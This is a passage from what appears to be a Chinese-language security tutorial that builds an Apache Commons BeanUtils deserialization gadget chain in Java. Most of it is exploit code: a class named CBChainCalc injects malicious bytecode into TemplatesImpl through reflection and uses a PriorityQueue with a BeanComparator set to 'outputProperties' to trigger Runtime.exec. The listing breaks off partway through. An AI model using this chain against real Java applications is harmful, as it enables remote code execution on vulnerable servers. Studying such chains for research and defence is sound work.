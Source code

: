 ```java

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }

    @Override
    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) {
    }
}
```

然后构造CB链实现弹出计算器

### 执行命令

```java
package calc;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CBChainCalc {
    public static void main(String[] args) throws Exception {
        // 1. 读取恶意类字节码（核心：准备触发代码执行的"弹药"）
        // EvilT.class是预编译的恶意类，继承自AbstractTranslet，构造函数中包含Runtime.getRuntime().exec("calc.exe")
        byte[] maliciousBytecode = readClassFile("EvilT.class的绝对路径");

        // 2. 初始化TemplatesImpl并注入恶意字节码（关键：构建漏洞触发的"载体"）
        TemplatesImpl templates = new TemplatesImpl();
        // 设置_bytecodes字段：存储恶意类字节码，后续会被defineTransletClasses()加载
        setFieldValue(templates, "_bytecodes", new byte[][]{maliciousBytecode});
        // 设置_name字段：必须非null，否则getTransletInstance()会直接return null，中断调用链
        setFieldValue(templates, "_name", "CalcTemplate");
        // 设置_tfactory字段：提供TransformerFactory实例，避免getOutputProperties()中出现空指针
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        // 3. 创建BeanComparator（核心：构建属性访问的"触发器"）
        // BeanComparator实现了Comparator接口，其compare()方法会调用PropertyUtils.getProperty()
        BeanComparator comparator = new BeanComparator();

        // 4. 初始化PriorityQueue（关键：构建触发排序的"容器"）
        // 初始化容量为2的优先队列，传入comparator作为排序器
        PriorityQueue<Object> queue = new PriorityQueue<>(2, comparator);
        // 添加两个占位元素：目的是让队列size>=2，满足后续heapify()方法的执行条件（size >>> 1 >=1）
        queue.add(1);
        queue.add(1);

        // 5. 替换队列元素为templates（关键：将"载体"注入排序流程）
        // 通过反射获取PriorityQueue的底层数组（queue字段）
        Object[] queueArray = (Object[]) getFieldValue(queue, "queue");
        // 将数组中的元素替换为TemplatesImpl实例，后续排序时会对这些实例进行比较
        queueArray[0] = templates;
        queueArray[1] = templates;

        // 6. 设置BeanComparator的比较属性（核心：指定触发的方法路径）
        // 设置property为"outputProperties"，使得PropertyUtils.getProperty()会调用templates.getOutputProperties()
        setFieldValue(comparator, "property", "outputProperties");

```